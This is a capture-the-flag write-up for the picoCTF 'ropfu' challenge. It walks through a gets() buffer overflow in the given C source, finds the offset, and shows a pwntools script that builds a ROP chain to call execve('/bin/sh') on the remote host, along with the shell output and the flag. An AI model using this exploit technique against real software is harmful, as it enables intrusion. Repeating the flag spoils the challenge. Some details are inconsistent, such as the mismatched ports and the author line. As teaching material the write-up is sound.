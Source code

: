 # ropfu : Binary Exploitation

What's ROP?  
Can you exploit the following [program](vuln) to get the flag?  
[Download source](vuln.c).  
`nc saturn.picoctf.net 58931`

Author : nc saturn.picoctf.net 58931

# Solution

For now, try running it.
```
$ nc saturn.picoctf.net 57122
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
The service accepts any input. The goal is to get the shell.
  
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
It is apparent that the `gets(buf);` in vuln() allows buffer overflow.  
```
$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
This file is a 32-bit binary.  
Construct a ROP chain that gets the shell and execute it by exploiting a buffer overflow.

Identify the offset.
```
pwndbg> x/12x $ebp-0x18
0xffffcf30:     0x61616161      0x0806e500      0x080e5000      0x08049e12
0xffffcf40:     0x000003e8      0x080e5000      0xffffcf68      0x08049e1a
0xffffcf50:     0x080e5000      0x080e5000      0x080e5000      0x000003e8
```
After calling `gets(buf)`, since `buf` is located at `ebp - 0x18`, we can find that the return address is located 0x1c bytes from the start of `buf` by examining the stack frame.

We need to construct a ROP chain to spawn a shell. Unfortunately, despite being statically compiled, there are no useful functions (e.g., system()) and the "/bin/sh" string.  
Therefore, to execute `execve("/bin/sh", NULL, NULL)`, we write `/bin/sh` to an address in a read-write memory region and pass the address as the first argument.

We use gets() to write `/bin/sh` to a memory. The write destination is set to the start of the .bss section at 0x080e62c0.

The execution code is below:
```python solve.py
from pwn import *
context.kernel = 'amd64'
elf = ELF('./vuln')

p = remote('saturn.picoctf.net', 57122)

rop = ROP(elf)
rop.call('gets', [0x080e62c0])
rop.execve(0x080e62c0, 0, 0)
print(rop.dump())

payload = b"a" * 0x1c + rop.chain()

p.sendline(payload)
p.sendline(b"/bin/sh")

p.interactive()
```
Execute it.
```
$ python3 solve.py
[*] '/mnt/c/Users/NAEL/Desktop/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Opening connection to saturn.picoctf.net on port 57122: Done
[*] Loaded 77 cached gadgets for './vuln'
[*] Using sigreturn for 'SYS_execve'
0x0000:        0x8051b60 gets(0x80e62c0)
0x0004:        0x8049022 <adjust @0xc> pop ebx; ret
0x0008:        0x80e62c0 completed.7104
0x000c:        0x80b073a pop eax; ret
0x0010:             0x77 [arg0] eax = SYS_sigreturn
0x0014:        0x804a3c2 int 0x80
0x0018:              0x0 gs
0x001c:              0x0 fs
0x0020:              0x0 es
0x0024:              0x0 ds
0x0028:              0x0 edi
0x002c:              0x0 esi
0x0030:              0x0 ebp
0x0034:              0x0 esp
0x0038:        0x80e62c0 ebx = completed.7104
0x003c:              0x0 edx
0x0040:              0x0 ecx
0x0044:              0xb eax = SYS_execve
0x0048:              0x0 trapno
0x004c:              0x0 err
0x0050:        0x804a3c2 int 0x80
0x0054:             0x23 cs
0x0058:              0x0 eflags
0x005c:              0x0 esp_at_signal
0x0060:             0x2b ss
0x0064:              0x0 fpstate
[*] Switching to interactive mode
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}
```

Get the flag!

`picoCTF{5n47ch_7h3_5h311_4c812975}`
